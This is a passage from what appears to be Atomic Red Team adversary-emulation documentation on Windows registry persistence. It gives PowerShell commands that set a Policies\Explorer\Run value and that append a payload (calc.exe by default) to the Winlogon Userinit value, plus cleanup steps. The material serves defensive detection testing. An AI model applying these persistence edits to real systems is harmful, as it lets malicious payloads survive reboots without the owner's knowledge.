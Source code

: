 
#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
if (!(Test-Path -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run")){
  New-Item -ItemType Key -Path  "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run"
}
Set-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" -Name "#{target_key_value_name}" -Value "#{payload}"
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" -Name "#{target_key_value_name}"
```





<br/>
<br/>

## Atomic Test #14 - HKLM - Append Command to Winlogon Userinit KEY Value
This test will append a command to the  HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit value to launch calc.exe on boot.
* Requires reboot

**Supported Platforms:** Windows


**auto_generated_guid:** f7fab6cc-8ece-4ca7-a0f1-30a22fccd374





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | what to run | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$oldvalue = $(Get-ItemPropertyValue -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit");
Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit-backup" -Value "$oldvalue";
$newvalue = $oldvalue + " #{payload}";
Set-ItemProperty -Path  "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Userinit" -Value "$newvalue"
```
